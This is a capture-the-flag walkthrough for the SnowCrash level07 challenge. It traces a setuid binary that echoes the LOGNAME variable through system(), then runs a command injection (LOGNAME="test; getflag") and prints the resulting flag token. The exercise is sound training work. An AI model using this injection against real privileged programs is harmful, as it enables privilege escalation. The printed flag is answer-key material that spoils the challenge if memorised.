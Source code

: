# Level07

The binary prints our username. Lets have a look at the binary:
```shell
level07@SnowCrash:~$ strings level07`
/bin/echo %s 
;*2$
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff804, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                                            = 2007
geteuid()                                                                                                            = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                                  = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                                  = 0
getenv("LOGNAME")                                                                                                    = "level07"
asprintf(0xbffff754, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)                                                  = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
```

We can spot the `getenv("LOGNAME")` is loaded to get our username so we can probably change it:
```shell
level07@SnowCrash:~$ export LOGNAME=test
level07@SnowCrash:~$ ./level07 
test
```
It works, lets now try to inject some code:
```shell
level07@SnowCrash:~$ export LOGNAME="test; getflag"
level07@SnowCrash:~$ ./level07 
test
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```